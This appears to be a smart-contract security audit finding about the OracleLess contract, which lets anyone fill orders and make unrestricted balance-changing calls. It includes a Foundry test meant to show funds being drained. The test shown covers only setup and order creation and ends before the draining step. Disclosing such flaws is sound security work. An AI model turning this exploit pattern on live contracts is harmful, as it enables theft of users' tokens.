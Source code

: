 ### Impact

The `Oracleless` contract allows anyone to fill orders. It also allows calls that alter the contract's balances to be made without any restrictions. An attacker could take advantage of these two facts to manipulate the contract token balances and steal tokens from the contract.

### PoC

 ```solidity
import {Test, console2} from "forge-std/Test.sol";
import {AutomationMaster} from "../../contracts/automatedTrigger/AutomationMaster.sol";
import {IAutomation, IPermit2} from "../../contracts/automatedTrigger/IAutomation.sol";
import {OracleLess, IOracleLess} from "../../contracts/automatedTrigger/OracleLess.sol";
import {IERC20} from "../../contracts/interfaces/openzeppelin/IERC20.sol";
import {TestERC20} from "./TestERC20.sol";

contract TestForge is Test {
    IERC20 tokenIn;
    IERC20 tokenOut;

    address owner = makeAddr("owner");
    AutomationMaster automationMaster;
    OracleLess oracleless;
    IPermit2 permit2;

    function setUp() public {
        //18 is number of decimals
        tokenIn = IERC20(address(new TestERC20(18)));
        tokenOut = IERC20(address(new TestERC20(18)));

        //perform necessary owner tasks
        vm.startPrank(owner);
        automationMaster = new AutomationMaster();
        permit2 = IPermit2(address(15));
        oracleless = new OracleLess(automationMaster, permit2);
        vm.stopPrank();
    }

function testFundsCanBeDrainedFromOracleless() public {
        //1. users create orders and have tokens in oracleless
        address user1 = makeAddr("user1");
        address user2 = makeAddr("user2");
        address user3 = makeAddr("user3");

        vm.startPrank(user1);
        TestERC20(address(tokenIn)).mint(10e18);
        tokenIn.approve(address(oracleless), 10e18);
        oracleless.createOrder(tokenIn, tokenOut, 10e18, 10e18, user1, 20, false, "");
        vm.stopPrank();

        vm.startPrank(user2);
        TestERC20(address(tokenIn)).mint(10e18);
        tokenIn.approve(address(oracleless), 10e18);
        oracleless.createOrder(tokenIn, tokenOut, 10e18, 10e18, user2, 20, false, "");
        vm.stopPrank();

        vm.startPrank(user3);
        TestERC20(address(tokenIn)).mint(10e18);
        tokenIn.approve(address(oracleless), 10e18);
        oracleless.createOrder(tokenIn, tokenOut, 10e18, 10e18, user3, 20, false, "");
        vm.stopPrank();

        uint256 oraclelessStartingBalanceTokenIn = tokenIn.balanceOf(address(oracleless));
        uint256 oraclelessStartingBalanceTokenOut = tokenOut.balanceOf(address(oracleless));
 ```